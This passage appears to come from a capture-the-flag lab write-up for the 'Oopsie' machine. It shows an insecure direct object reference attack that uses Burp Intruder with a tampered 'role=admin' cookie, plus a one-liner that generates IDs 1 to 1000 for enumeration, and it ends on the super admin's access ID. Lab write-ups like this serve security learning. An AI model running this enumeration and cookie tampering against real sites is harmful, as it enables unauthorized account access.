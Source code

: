 The request parameters are `content=accounts` and `id=1`.  We could perhaps try different `id`s.  I try `id=2` and get an empty page&mdash;but not an error!  This is good.  Perhaps a certain ID/parameter combination lets me see different accounts.  Let's look for the super admin!  To do this, we can use Burp's Intruder tab (<kbd>&#8984;</kbs> + <kbd>I</kbd>).  Going into the Positions sub-tab, delete the curly symbols around everything except the `id`, so it should look like this:
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§§ HTTP/1.1
Host: oopsie
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=34322; role=admin
Connection: close

```

(Keep the attack type as Sniper).  Now go into the Payloads sub-tab.  We want to populate the "Payload Opions [Simple list]" section.  We can generate a list of 1000 IDs to start with:
```bash
for i in $(seq 1 1000); do echo "$i"; done | pbcopy # or
julia -e '[println(i) for i in 1:1000]' | pbcopy # etc; there are many ways to skin a cat (but seriously, who skins cats?!)
```

Now paste it into the aforementioned section.  Click on the Options tab and ensure that we "Always" Follow Redirections.  Also select the option to "Process cookies in redirections".

Going back to the Target tag, we can now press Start attack.  We slowly see the responses coming through, their lengths and their statuses, etc.  We look for any irregularities.  

Immediately, (well, after waiting a little), we see that `id=30` produces a different length to all the others.  Going back to Repeater [note: sending something from Proxy to Repeater, you can use the <kbd>&#8984;</kbs> + <kbd>R</kbd> shortcut], we change ID=30, and we see 

<table align="center">
	<thead>
		<tr>
			<td>Access ID</td>
			<td>Name</td>
			<td>Email</td>
		</tr>
	</thead>
	<tbody>
		<tr>
			<td><code>86575</code></td>
			<td>super admin</td>
			<td><code>superadmin@megacorp.com</code></td>
		</tr>
	</tbody>
</table>
